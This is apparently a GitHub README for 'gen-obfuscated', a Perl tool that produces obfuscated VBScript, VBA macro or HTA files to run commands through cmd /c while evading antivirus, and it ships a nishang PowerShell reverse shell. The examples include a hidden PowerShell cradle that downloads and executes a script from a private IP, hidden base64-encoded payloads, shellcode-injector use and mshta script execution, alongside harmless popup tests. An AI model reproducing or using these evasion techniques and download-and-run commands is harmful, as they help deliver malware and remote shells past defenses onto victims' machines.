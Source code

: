 # gen-obfuscated

### Generate Obfuscated Code
This is a simple perl program that generates obfuscated vbs/vba code
for use in passing a command to cmd /c while bypassing AV.

To set the options you will need to edit the .pl file directly this is not just a
simple program with preset payloads. It's designed to take in any
type of one-liner you can think of passing to "cmd.exe /c".

Some of the examples included deal with powershell, also included is powershell 
rvs-sh file originally from the nishang toolkit by Nikhil "SamratAshok" Mittal.
Change the ip/port values before attempting to use it.

Generated Output of an obfuscated command string:

![generated output](http://www.nightowlconsulting.com/wp-content/uploads/2015/08/GO-IMG-1.png)


### UPDATE
Now has an interactive user prompt just run it from the terminal.

```
./gen-obfuscated.pl
```
The below can still give you ideas of what commands to run and should help you get started.

```
gen-obfuscated.pl

##[  Options ]
#
# The options are included inside due to the tricky nature of escaping powershell code passed as an
# argument from the bash shell, also I don't need too since now the commands are directly taken from the
# user interactively.

##[ Script Type to generate ]
#
# 1 for vbscript
# 2 for vba macro ---> EXPERIMENTAL large macros can be generated affects still unknown...
# 3 for hta script
#
##[ Encode Your IEX? ]
#
# base64 encoding in Powershell, set to false if you already have a base64 encoded payload or
# you want your iex only obfuscated by ascii code.
#
##[ PowerShell IEX ]
#
# The command you wish to be base64 encoded
# iex (New-Object -ComObject Wscript.Shell).Popup('IEX Decoded and Executed!',0,'Done',0x1)
#
# If you already have a powershell command with encoding, for example this can also be used with the 
# alphanumeric shellcode injector payload generated by the setoolkit, I warn you this will create a 
# very long script upwards of 350 lines...
#
# cmd /c powershell -w hidden -enc <-base64 encoded string-> 
#
# Only use ascii chr function obfuscation
# cmd /c powershell -w hidden -c iex (New-Object System.Net.WebClient).DownloadString('http://192.168.1.110/rvs-sh')
#
# OR
#
# A command that produces a popup, for testing only using ascii chr function obfuscation
# cmd /c powershell -w hidden -c iex (New-Object -ComObject Wscript.Shell).Popup('IEX Decoded and Executed!',0,'Done',0x1););
#
# OR
#
# A command using javascript to pass commands directly to mshta, for maximum effect use script type 3
# cmd /c mshta "javascript:var sh=new ActiveXObject( 'WScript.Shell' ); sh.Popup( 'Javascript decoded and Executed', 15, 'From gen-obfuscated', 64 );close()");
#
# Be Creative...

```
